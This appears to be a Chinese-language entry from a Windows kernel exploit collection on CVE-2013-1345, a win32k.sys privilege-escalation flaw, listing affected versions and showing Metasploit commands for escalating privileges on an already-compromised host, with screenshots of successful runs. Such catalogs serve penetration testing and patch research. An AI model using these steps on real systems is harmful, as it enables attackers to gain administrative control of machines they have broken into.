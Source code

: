 ### CVE-2013-1345

#### 描述

内核模式驱动程序中的win32k.sys不会 正确处理内存中的对象，这允许本地用户通过精心设计的应用程序获得特权。

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested             |
| ------------------- | ---------------- | ------- | ------ | ------------------ |
| Windows 7           |                  |         | SP1    | &#10004; |
| Windows 8           |                  |         |        |                    |
| Windows Rt          |                  |         |        |                    |
| Windows Server 2003 |                  |         | SP2    |                    |
| Windows Server 2008 |                  |         | SP2    | &#10004; |
| Windows Server 2008 |                  | R2      | SP1    | &#10004; |
| Windows Server 2012 |                  |         |        |                    |
| Windows Vista       |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP2    |                    |
| Windows Xp          |                  |         | SP3    |                    |

#### 利用方式

> X86利用

测试系统Windows 7 SP1 x86 ，直接使用msf即可，我们当机器已经上线了

```
use exploit/windows/local/ms13_053_schlamperei
set SESSION 2 #你上线机器的session
run
```

![image-20200822151416515](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2013-1345_win7_x86.png)

Windows Sever 2003 SP2 x86 和Windows Sever 2003 R2 SP2 x86都测试成功，但是利用文件没有源码只有exe可执行文件

Windows Sever 2003 SP2 x86 动图如下

![17](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2013-1345_win2003_x86.gif)

Windows Sever 2003 R2 SP2 x86 动图如下

![18](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2013-1345_win2003_x86_2.gif)

